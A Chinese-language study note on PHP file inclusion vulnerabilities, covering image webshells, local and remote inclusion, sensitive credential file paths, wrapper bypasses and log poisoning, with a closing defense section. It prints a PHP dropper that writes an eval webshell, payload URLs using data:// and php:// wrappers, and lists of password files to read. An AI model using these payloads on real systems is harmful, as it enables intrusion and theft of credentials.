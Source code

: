 # 文件包含漏洞

## 介绍
文件被当做变量引用，代码复用

被包含的文件被无视文件扩展名，无条件被当做php代码解析。

## 原理

绕过格式检测等防御措施，上传带有php脚本内容的文件到服务器，夺取webshell。

## 攻击方式

### 图片马

- PHP脚本直接放到图片文本内容最后
- 命令行生成 
```PowerShell
cmd /c copy /b 1.jpg + 2.php 3.jpg
```
- `010editor`在内容末尾添加脚本
- ps制作（文件--文件简介--基本--文档标题）

## 漏洞利用

### 类型

- 本地文件包含漏洞。包含本地服务器文件，参数为本地路径。


- 远程文件包含漏洞。参数为URL。借此可以上传攻击脚本，夺取webshell。


将本地恶意文件上传到靶子机
```PHP
<?php fputs(fopen("shell.php", "w"), "<?php @eval($_POST[x])?>")?>
```
随后访问`shell.php`夺取shell


相对路径：
- ../ 上一级目录，最多推到C:/

### PHP

1. 函数
- include
- include_once
- require
- require_once 

2. 漏洞特征

参数为文件或链接

### 系统类型

系统敏感文件

1. windows

```
c:\boot.ini                                   // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml      // IIS配置文件
c:\windows\repair\sam                         // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini                  // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD     // MySQL root密码
c:\windows\php.ini                            // php 配置信息
```

2. linux

```
/etc/passwd                                         // 账户信息
/etc/shadow                                         // 账户密码文件
/usr/local/app/apache2/conf/httpd.conf              // Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf  // 虚拟网站配置
/usr/local/app/php5/lib/php.ini                     // PHP相关配置
/etc/httpd/conf/httpd.conf                          // Apache配置文件
/etc/my.conf                                        // mysql 配置文件
```

### 与其他漏洞配合

- 文件上传。上传一个图片马，再利用文件包含漏洞执行脚本。


### 远程文件读取

### 绕过

1. %00
2. 路径长度
使用`.``./`增加长度

原理：
    - Windows下目录最大长度为256字节，超出的部分会被丢弃
    - Linux下目录最大长度为4096字节，超出的部分会被丢弃

3. 双写绕过

原理：在文件包含服务器对我们传入的参数没有进行严格过滤时，比如没没有对大小写进行过滤，我们可以使用大小写混合进行绕过。

4. 伪协议绕过。

![伪协议](https://i-blog.csdnimg.cn/blog_migrate/bfee0035eb44e7758cb490b89c3a2861.png)


1. file:// #访问本地文件系统
`URL：http://127.0.0.1/include.php?test=file://C:\Windows\System32\drivers\etc\hosts`

1. http:// #访问HTTPs网址,除了能够跳转，还能进行远程包含进行漏洞执行。
`URL：http://127.0.0.1/include.php?test=http://www.baidu.com`

1. data://text/plain;base64,...
从php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执
行任意代码。
这里需要注意若使用data的话需要allow_url_include 和allow_url_fopen为on。
`URL：http://127.0.0.1/include.php?test=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=`
"PD9waHAgcGhwaW5mbygpPz4="是通过base64加密的<?php phpinfo();?>

1. php利用
    1. php://filter.`php://filter` 可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启，读取源代码并进行
base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了

`?test=php://filter/read=convert.base64-encode/resource=test.php`这里使用`resource=../../test.php`也是可以的。

    1. php://input.`php://input`主要是用来执行php代码的，不过php://input需要以`POST`提交，这里我们先在URL中添加
php://input然后抓包把GET修改为POST，最后在**数据包的最后**输入想要执行的代码就可以实现代码执
行。

### 远程文件包含

1. 绕过

    - ？
    - #（%23）
    - %00
    - 其他
![](https://i-blog.csdnimg.cn/blog_migrate/896f9afb3bf84755c58ffbdc4896f1da.png)

2. 日志读取

**场景**：有时候网站存在文件包含漏洞，但是却没有文件上传点。这个时候我们还可以通过利用Apache的日志文
件来生成一句话木马。

**原理**：日志会记录客户端`请求`及服务器`响应`的信息，访问http://www.xx.com/时，也会被记录在日志里，也可
以插入到`User-Agent`，但是请求的信息有可能被url编码之后记录日志，这里可以通过burp来发送请求
包来`防止被编码`，通过相对路径找到日志文件，利用`包含漏洞`执行。

**利用**：日志位置

    1. Apache
        1. windows
            - apache安装目录/logs/access.log或者error.log
        1. linux
            - /var/log/apache/access.log或者error.log
            - /var/log/apache2/access.log或者error.log
            - /etc/httpd/logs/access_log或者error.log 
    2. Nginx
       1. windows
          1. nginx安装目录/logs/access.log或者error.log
       2. linux
          1. /var/log/nginx/access.log或者error.log
    3. IIS
       1. IIS6.0
          1. C:\windows\system32\LogFiles
       2. IIS7.5
          1. %SystemDrive%\inetpub\logs\LogFiles
   

## 防御

1. **设置白名单**：若是在编写代码的时候能够确定文件包含的文件名的时候，那么最好使用白名单进行参数
传入。

2. **过滤危险字符**：由于Include/Require可以对PHP Wrapper形式的地址进行包含执行(需要配置
php.ini)， 在Linux环境中可以通过"../../"的形式进行目录绕过，所以需要**判断文件名称是否为合法**的
PHP文件。

3. **设置文件目录**：PHP配置文件中有open_basedir选项可以设置用户需要执行的文件目录，如果设置
目录的话，PHP仅仅在该目录内搜索文件。

4. **关闭危险配置**：PHP配置中的allow_url_include选项如果打开，PHP会通过Include/Require进行远
程文件包含，由于远程文件的不可信任性及不确定性，在开发中禁止打开此选项，PHP默认是关闭的。
